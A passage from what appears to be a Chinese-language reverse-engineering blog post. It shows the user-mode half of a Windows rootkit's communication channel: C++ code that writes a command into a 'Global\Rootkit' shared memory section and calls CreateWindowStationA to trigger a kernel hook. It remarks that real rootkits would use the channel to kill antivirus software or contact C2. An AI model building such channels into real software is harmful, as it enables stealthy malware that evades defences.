 3环的实现就很简单了：

- 获取到共享内存的地址
- 调用`CreateWindowsStationA`触发0环hook，实现通信

```c++
INT
main()
{
    // 打开驱动创建的共享内存区域
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_ALL_ACCESS, FALSE, L"Global\\Rootkit");
    if (!hMapFile)
    {
        return 1;
    }
    
	// 将这一区域映射到自己的地址空间中
    PAYLOAD* pSharedBuf = (PAYLOAD*)MapViewOfFile(hMapFile, FILE_MAP_ALL_ACCESS, 0, 0, sizeof(PAYLOAD));
    if (!pSharedBuf)
    {
        return 2;
    }

    // 填充payload
    PAYLOAD payload = { 0 };
    payload.cmdType = CMD_LOG_MESSAGE;
    payload.executed = 0;
    RtlCopyMemory(pSharedBuf, &payload, sizeof(PAYLOAD));

    // 触发Hook
    std::cout << "[*] Triggering driver" << std::endl;
    HWINSTA hWinSta = CreateWindowStationA(
        "MyWinStation",
        0,
        WINSTA_ALL_ACCESS,
        NULL
    );

    // 等待一秒，检查payload有没有被修改
    while (!pSharedBuf->executed)
        Sleep(1000);
    std::cout << "[*] Status: " << pSharedBuf->status << std::endl;
}
```

测试效果如下：

![image-20250924002007692](https://liangcha666.oss-cn-beijing.aliyuncs.com/ReverseBlog/image-20250924002007692.png)

在实际的rootkit中，可将payload替换成强杀杀毒软件或连接C2等功能。

### 检测
